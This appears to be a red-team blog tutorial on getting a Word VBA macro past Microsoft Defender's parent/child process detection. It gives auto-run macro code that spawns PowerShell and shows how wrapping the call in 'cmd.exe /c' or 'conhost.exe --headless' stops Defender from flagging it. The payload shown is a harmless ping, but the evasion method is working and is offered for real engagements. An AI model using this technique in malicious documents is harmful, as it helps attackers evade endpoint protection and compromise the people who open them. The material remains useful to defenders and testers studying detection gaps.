





Bypass Microsoft Defender when spawning a powershell.exe process from MS Word<!-- end -->.

# Parent/Child Process Relationship

Security solutions often monitor process relationships to detect malicious behaviour. With Microsoft Defender, if you attempt to spawn `powershell.exe` from MS Word, it will automatically flag it as a malicious program, regardless of what the spawned PowerShell process does. Let's explore how we can bypass this detection.

## Spawning PowerShell (The Detected Way)

Below we have an innocent looking VBA script that spawns PowerShell.exe via the `Shell` command and runs `ping google.com`.

    Sub AutoOpen()
    Test
    End Sub

    Sub Document_Open()
    Test
    End Sub

    Sub Test()
    Dim str As String
    str = "powershell.exe -c ping google.com"
    Shell str, vbHide
    End Sub

Unfortunately, Defender doesn't seem to agree that it's innocent. PowerShell has been abused to an extent where Microsoft Defender doesn't seem care what the command does.

If we go view 'Protection History' we can see its being treated as a Trojan.

## Spawning PowerShell (The Clean Way)

With an additional 10 characters to our command, Microsoft Defender won't complain anymore. We're going to modify our `Shell` command as shown below.

    # Before
    Shell "powershell.exe -c ping google.com", vbNormalFocus

    # After
    Shell "cmd.exe /c powershell.exe -c ping google.com", vbNormalFocus

Below we can see how the parent/child relationship was modified.

## Avoiding Cmd.exe

Although `cmd.exe` is a better alternative than `powershell.exe`, it's still a highly monitored process by defenders. A better way which avoids `cmd.exe` is shown below.

    Shell "conhost.exe --headless powershell.exe -c ping google.com", vbNormalFocus

This way `cmd.exe` and `powershell.exe` are avoided as direct child processes.

## Why Does This Work?

After looking into this simple bypass it seems that Defender blacklists `powershell.exe` as a direct child process. In pseudocode it's probably programmed something like this:

`if WINWORD.exe spawns PowerShell.exe then Trojan`

Clearly we don't fit the above description so we're good!

# Conclusion

In a real engagement you should probably avoid the `Shell` command altogether, but the point of this post is to demonstrate how small modifications in behaviour can result in a different outcome. 
